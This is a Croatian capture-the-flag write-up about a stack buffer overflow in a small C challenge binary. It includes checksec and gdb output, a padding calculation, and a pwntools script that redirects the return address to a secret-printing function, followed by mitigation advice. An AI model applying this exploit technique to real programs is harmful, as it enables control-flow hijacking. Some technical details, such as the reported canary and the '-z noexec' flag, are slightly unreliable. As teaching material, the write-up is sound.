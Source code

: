 # Writeup

## Otkrivanje ranjivosti
Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **stack buffer overflow** kod promijene zone.

```c
void promijeniZonu(){
	char priv[4];
	printf("Unesi novu zonu (3 znaka):\n");
	fgets(priv,44,stdin);
	strcpy(trenutnaZona,priv);
	printf("Zona promijenjena!\n");
}
```

U programu se za unos nove zone rezervira polje veličine 4 bajta, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 44 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.

```
└─$ checksec --file=poruka    
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2258 Symbols      No    0               0               poruka
```

Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.

## Objašnjenje ranjivosti

Kad je PIE omogućen, sustav koristi tehnologiju poput ASLR (Address Space Layout Randomization) za nasumično raspoređivanje adresa programa (npr. adrese funkcija, varijabla, stog...).
Na taj način, čak i ako napadač uspije izvršiti napade, neće moći predvidjeti gdje će se funkcije ili kritični podaci nalaziti u memoriji.
Zbog toga što program ne sadrži PIE, može se preurediti povratna adresa funkcije promijeniZonu na bilo koji drugu adresu.
To je moguće zbog toga što program pomoću fgets upisuje podatke izvan buffera.
U ovom slučaju želimo program preusmjeriti na adresu funkcije ispisiTajnuPoruku.
Potrebno je odrediti koji dio korisničkog unosa preuređuje povratnu adresu funkcije.
Za to se može koristiti program ```gdb``` u kombinaciji s ```pwndbg```.

Prvo treba pogledati na kojoj adresi se nalazi buffer:

```
─────────[ DISASM / x86-64 / set emulate on ]────────── 
 ► 0x401a2a <promijeniZonu+42> call fgets <fgets>
        s: 0x7fffffffddac <-- 0xffffddd000000000
		n: 0x2c
        stream: 0x4c45c0 (_IO_2_1_stdin_) <-- 0xfbad2288
```

Adresa gdje se nalazi naš buffer je ```0x7fffffffddac```.
Broj bajtova koje zapisujemo je ```0x2c```  (decimalno je to 44).

Zatim treba pogledati gdje se na stogu nalazi povratna adresa funkcije promijeniZonu:
```
────────[ STACK ]─────────
00:0000│ rsp         0x7fffffffdda0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
01:0008│ rax-4 rdi-4 0x7fffffffdda8 —▸ 0x401d45 (ocistiUlazniBuffer+10) ◂— cmp eax, 0xa
02:0010│ rbp         0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
03:0018│+008         0x7fffffffddb8 —▸ 0x402172 (main+302) ◂— jmp main+320
```

Povratna adresa funkcije se uvijek nalazi ispod rbp. U ovom slučaju, povratna adresa funkcije promijeniZonu se nalazi na ```0x7fffffffddb8```.

Da bi se izračunao potreban padding (udaljenost korisničkog unosa), potrebno je oduzeti adresu mjesta povratne adrese funkcije i adresu na kojoj se nalazi buffer.

```ddb8 - ddac = C = 12```

Izračunati padding je 12 bajtova. 
Sada je potrebno nakon 12 bajtova korisničkog unosa unijeti adresu funkcije ispisiTajnuPoruku.


## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava stack buffer overflow ranjivost u zadatku.
Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. 
Nakon pokretanja programa, skripta odabire opciju promijene zone (3) i zatim za novu zonu unosi korisnički unos koji preusmjerava izvođenje programa na adresu funkcije ispisiTajnuPoruku.


```python
from pwn import *

io = process("./poruka")
elf = ELF("./poruka")

# = = = START

print(io.recvuntil(b"Odabir:"))
io.sendline(b"3")

print(io.recvuntil(b"Unesi novu zonu (3 znaka):"))

payload = b""
padding = b"A" * 12
ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])
#elf.sym["naziv"] = funkcije i varijable se zovu simboli, to uzme adresu tog simbola kao
#p64() = pakiraj ova 64 bita u format koji će naš kompjuter moći pročitati (jer on koristi little endian)

payload += padding + ispisiTajnuPoruku

# = = = END
io.sendline(payload)
print(payload)

io.interactive()

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[TYP0_Ov3rFl0w]```

## Edukativne smjernice
- Stack buffer overflow je napad kod kojeg unos veći od rezerviranog memorijskog prostora (buffera) prepiše podatke na stogu (npr. povratnu adresu) i omogućuje napadaču da promijeni tok izvršavanja programa.
- Za zaštitu od ove ranjivosti preporučuje se:
   - Pažljivo provjeriti veličine buffera i memorije koja se u njih zapisuje
   - Provjeriti duljinu korisničkog unosa prije njegovog kopiranja u buffer
   - Uključiti stack canary (gcc ... -fstack-protector-strong) koji detektira prepisivanje stoga i tada prekida izvođenje programa.
   - Omogućiti NX (gcc ... -z noexec) kako bi spriječili izvršavanje koda na stogu.
   - Uključiti PIE/ASLR (gcc ... -fPIE -pie) za nasumično raspoređivanje adresa u memoriji.

